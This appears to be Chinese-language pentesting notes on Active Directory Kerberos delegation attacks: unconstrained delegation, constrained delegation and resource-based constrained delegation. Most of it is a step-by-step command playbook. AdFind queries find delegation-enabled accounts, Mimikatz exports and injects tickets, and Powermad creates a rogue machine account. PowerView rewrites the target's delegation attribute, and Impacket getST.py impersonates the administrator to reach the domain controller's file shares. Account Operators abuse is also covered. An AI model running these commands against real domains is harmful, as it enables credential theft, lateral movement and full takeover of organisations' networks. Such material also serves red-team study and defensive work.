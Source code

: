 # 委派攻击
![](vx_images/492169683994481.png)
![](vx_images/3109585738675.png)
委派攻击是 Active Directory 中最危险的横向移动技术之一，利用服务账户的 ​过度权限配置​ 模拟任意用户访问资源，最终接管整个域。

---


** 非约束委派攻击 (Unconstrained Delegation)​**

```
查询非约束委派的服务账户
AdFind -b "DC=god,DC=org" -f 
"((samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn

查询非约束委派的机器账户
AdFind -b "DC=god,DC=org" -f 
"((samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
```
**利用过程:**
```
1.域控与委派机器通讯  
* [ ] 主动
net use \\webserver

* [ ] 钓鱼
钓鱼网站

2.导出票据到本地
mimikatz sekurlsa::tickets /export
3.导入内存
mimikatz kerberos:ptt (.....)
4.连接域控
shell dir \\owa2010cn-god\c$
```
**约束委派攻击 (Constrained Delegation)**



**基于资源的约束委派(RBCD)**
![](vx_images/87122845394755.png)


![](vx_images/279964658884851.png)
利用分类:
利用域用户主机加入
已知Acount Operators组用户拿下主机
结合HTLM Relay攻击拿下主机(CVE-2019-1040)


**利用与用户主机加入:**
利用条件:
1.允许创建机器账户
2.具有管理主机加入域的用户账户

过程:
```
1.判断是否有利用条件(AdFind.exe：一个用于查询Active Directory信息的命令行工具)
查询被与用户创建的机器账户列表
shell AdFind.exe -b "DC=xiaodi,DC=local" -f "(&(samAccountType=805306369))" cn mS-DS-CreatorSID

根据查出来的sid值找对应用户名
AdFind.exe -b "DC=xiaodi,DC=local" 
           -f "(&(objectsid=S-1-5-21-1695257952-3088263962-2055235443-1104))" 
           objectclass cn dn

2.新增机器账户
# 使用powershell创建
# 第一部分：解除执行策略限制
Set-ExecutionPolicy Bypass -Scope Process
# 第二部分：创建恶意机器账户
Import-Module .\Powermad.ps1;
New-MachineAccount -MachineAccount serviceA -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force)


3.修改新增机器用户委派属性

获取新增账户的 ObjectSID
Import-Module .\PowerView.ps1;
Get-NetComputer serviceA -Properties objectsid

修改目标主机委派属性
import-module .\powerview.ps1;
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRWPDTLOCRSDRCWDWO;;S-1-5-21-1695257952-3088263962-2055235443-1104)";
$SDBytes = New-Object byte[] ($SD.BinaryLength);
$SD.GetBinaryForm($SDBytes,0);
Get-DomainComputer data | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

4.请求票据后导入
利用serviceA申访问data主机cifs服务票据
python getST.py -dc-ip 192.168.3.33 xiaodi.local/serviceA\$:12345 
                -spn cifs/data.xiaodi.local 
                -impersonate administrator
                
导入:
mimikatz kerberos::ptc administrator.ccache
```

**已知Acount Operators组用户拿下主机**

```
dc 2012
datax  2008
test7 与用户加入

webadmin win7
webadmin与用户加入

sid值不同
被控用户属于Acount Operators组 不需要sid一致也可以进行RBCD攻击

查Acount Operators组成员
adfind.exe -h 192.168.3.33:389 -s subtree -b "CN=Account Operators,CN=Builtin,DC=xiaodi,DC=local" member
注:Account Operators 组默认权限：​可管理域内普通账户（创建/删除/修改密码）​，但无权修改管理员组,利用这个权限更改资源的指定的sid
后续利用同上



```












